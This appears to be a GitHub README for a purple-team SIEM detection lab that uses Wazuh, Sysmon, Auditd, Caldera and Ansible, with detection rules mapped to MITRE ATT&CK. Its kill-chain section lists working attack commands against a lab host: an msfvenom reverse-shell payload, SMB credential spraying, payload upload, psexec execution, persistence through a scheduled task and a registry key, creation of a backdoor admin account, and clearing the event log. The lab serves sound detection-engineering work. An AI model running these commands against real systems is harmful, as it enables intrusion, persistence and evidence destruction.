


# 🛡️ SIEM Attack Detection & Threat Telemetry Pipeline



A comprehensive SIEM (Security Information and Event Management) attack detection, telemetry collection, adversary emulation, and automated deployment lab based on **Wazuh**, **Auditd**, **Sysmon**, **Apache Caldera**, and **Ansible**.

This project provides end-to-end detection engineering capabilities mapped directly to the **MITRE ATT&CK** framework, complete with automated Ansible deployment playbooks for both Linux and Windows endpoints.

---

## 📁 Repository Structure

```text
siem-attack-detection/
├── ansible/
│   ├── linux/
│   │   ├── deploy-wazuh.yml          # Agent deployment playbook (Linux)
│   │   ├── deploy-config.yml         # Config & audit.rules deployment
│   │   ├── deploy-caldera.yml        # Caldera Sandcat agent deployment (Linux)
│   │   ├── inventory.ini             # Linux targets inventory
│   │   ├── audit.rules               # Auditd telemetry rules
│   │   └── ossec.conf                # Wazuh Linux agent config
│   └── windows/
│       ├── deploy-wazuh.yml          # Agent deployment playbook (Windows)
│       ├── update-wazuh.yml          # Config deployment playbook
│       ├── deploy-caldera.yml        # Caldera Sandcat agent deployment (Windows)
│       ├── inventory.ini             # Windows targets inventory
│       └── ossec.conf                # Wazuh Windows agent config
├── wazuh-server/
│   └── local_rules.xml               # 38 custom SIEM detection rules (ID 100001-100039)
├── docs/
│   ├── architecture-diagram.png      # VirtualBox host-only topology diagram
│   └── report.pdf                    # Full project documentation & PFE report
├── .gitignore                        # Git exclusions file
├── LICENSE                           # Open source MIT license
└── README.md                         # Primary project documentation
```

---

## 🏗️ Architecture & Topology

The lab topology operates on a VirtualBox host-only network (`192.168.56.0/24`):

| Role | OS / Platform | IP Address | Key Components |
| :--- | :--- | :--- | :--- |
| **SIEM Server** | Wazuh Manager 4.x | `192.168.56.10` | Indexer, Dashboard, Custom Rules Engine |
| **Linux Target** | Ubuntu 24.04 LTS | `192.168.56.30` | Wazuh Agent, Auditd (`audit.rules`), Caldera Sandcat (`systemd`) |
| **Windows Target**| Windows 10 / Server | `192.168.56.20` | Wazuh Agent, Sysmon v14+, Caldera Sandcat (`Scheduled Task`) |
| **Adversary / C2** | Apache Caldera | `192.168.56.1:8888` | Automated Adversary Emulation & Operations |
| **Attacker Node** | Kali Linux | `192.168.56.1` / DHCP | Nmap, Metasploit, Impacket, CrackMapExec |

---

## 🔍 Custom Detection Rules (`local_rules.xml`)

Includes **38 custom Wazuh detection rules** (Rule IDs `100001` through `100039`) tailored to detect adversary behaviors and telemetry anomalies.

### Key Mapped MITRE ATT&CK Techniques:

- **T1059.004 (Command and Scripting Interpreter: Unix Shell)**: Reverse shell detection (bash, nc, python3).
- **T1003.008 (OS Credential Dumping: /etc/shadow)**: Unauthorized access to credential stores.
- **T1098 / T1136 (Account Manipulation & Creation)**: Local account and group modification.
- **T1070.002 / T1070.004 (Indicator Removal on Host)**: Log tampering or bulk `rm` usage.
- **T1053.003 (Scheduled Task/Job: Cron)**: Cron table persistence modifications.
- **T1548.003 (Abuse Elevation Control: Sudo / Sudoers)**: `/etc/sudoers` modifications & privilege escalation.
- **T1027 (Obfuscated Files/Information)**: Base64 execution decoding on-the-fly.
- **T1110.001 (Password Brute Force)**: SSH brute force detection and active response trigger.
- **T1489 (Service Stop)**: Unintended termination of system security services via `systemctl` or `pkill`.

---

## 🚀 Automated Deployment with Ansible

### Linux Agent & Telemetry Deployment

1. **Deploy Wazuh Agent**:
   ```bash
   ansible-playbook -i ansible/linux/inventory.ini ansible/linux/deploy-wazuh.yml --ask-become-pass
   ```

2. **Deploy Telemetry & Configurations (`audit.rules` + `ossec.conf`)**:
   ```bash
   ansible-playbook -i ansible/linux/inventory.ini ansible/linux/deploy-config.yml --ask-become-pass
   ```

### Windows Agent & Sysmon Telemetry Deployment

1. **Deploy Windows Wazuh Agent**:
   ```bash
   ansible-playbook -i ansible/windows/inventory.ini ansible/windows/deploy-wazuh.yml
   ```

2. **Update Windows Agent Configuration**:
   ```bash
   ansible-playbook -i ansible/windows/inventory.ini ansible/windows/update-wazuh.yml
   ```

---

## 🔴 Automated Adversary Emulation with Apache Caldera

To transition the lab into a full **Purple Team** environment, **Apache Caldera** is integrated to automate multi-stage adversary attacks and measure detection efficacy against Wazuh in real-time.



### Automated Sandcat Agent Deployment via Ansible

1. **Linux Target (`192.168.56.30`)**:
   Downloads the Sandcat ELF binary from Caldera and configures it as a persistent `systemd` service (`caldera-agent.service`):
   ```bash
   ansible-playbook -i ansible/linux/inventory.ini ansible/linux/deploy-caldera.yml --ask-become-pass
   ```

2. **Windows Target (`192.168.56.20`)**:
   Downloads the Sandcat PE executable via PowerShell and registers it as a persistent Windows Scheduled Task (`CalderaAgent`) running under `SYSTEM` privileges (surviving reboots and WinRM session disconnects):
   ```bash
   ansible-playbook -i ansible/windows/inventory.ini ansible/windows/deploy-caldera.yml
   ```

### Running an Operation:
1. Log into the Caldera dashboard (`http://localhost:8888`) as `red`.
2. Confirm the agents are active under **Agents** (group `red`).
3. Navigate to **Operations** -> **Create Operation**.
4. Select an Adversary profile (e.g., Discovery, Hunter, or custom abilities matching your MITRE ATT&CK detection rules).
5. Start the operation and monitor alert triggers in real time on the **Wazuh Dashboard**.

---

## ⚡ Attack Simulation & Cyber Kill Chain Testing

### Windows Cyber Kill Chain Workflow

1. **Reconnaissance**:
   ```bash
   nmap -O 192.168.56.0/24
   nmap -sV -p- -T4 192.168.56.20
   ```

2. **Weaponization & Delivery**:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > payload.exe
   crackmapexec smb 192.168.56.20 -u Administrator -p mots_de_passe.txt
   smbclient //192.168.56.20/C$ -U Administrator -c "put payload.exe \Windows\Temp\payload.exe"
   ```

3. **Exploitation & Remote Execution**:
   ```bash
   impacket-psexec Administrator:'Password'@192.168.56.20
   ```

4. **Persistence Techniques**:
   - **Scheduled Tasks**: `schtasks /create /tn "Windows_Update_Critical" /tr "C:\Windows\Temp\payload.exe" /sc onlogon /ru SYSTEM /f`
   - **Registry Run Keys**: `reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SysmonUpdate" /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f`
   - **Backdoor Account Creation**: `net user SupportTech P@ssw0rd2026! /add && net localgroup Administrateurs SupportTech /add`

5. **Defense Evasion**:
   ```cmd
   wevtutil cl Security
   ```

---

## 🔮 Future Improvements & Roadmap

Planned enhancements for the SIEM detection and telemetry pipeline:

- [x] **Automated Adversary Emulation**: Integrated **Apache Caldera** to automate multi-stage attack simulations across Linux and Windows endpoints with Ansible deployment.
- [ ] **SOAR Integration**: Connect Wazuh with **Shuffle SOAR** or **Cortex** to automate incident response playbooks (e.g., auto-isolating compromised endpoints and blocking malicious IP addresses at the firewall).
- [ ] **Network Security Monitoring (NSM)**: Integrate **Suricata** NIDS telemetry (`eve.json`) into Wazuh agents.
- [ ] **Threat Intelligence Feed Integration**: Incorporate **MISP** and **AlienVault OTX** feeds into Wazuh Server for automated IoC (IPs, domain names, file hashes) correlation.
- [ ] **Detection-as-Code with Sigma**: Store rules in standardized Sigma YAML format and compile them into Wazuh rules via CI/CD.
- [ ] **Machine Learning Anomaly Detection**: Implement ML-based user & entity behavior analytics (UEBA) for detecting baseline authentication and network anomalies.

---

## 📄 License

This project is licensed under the [MIT License](LICENSE).
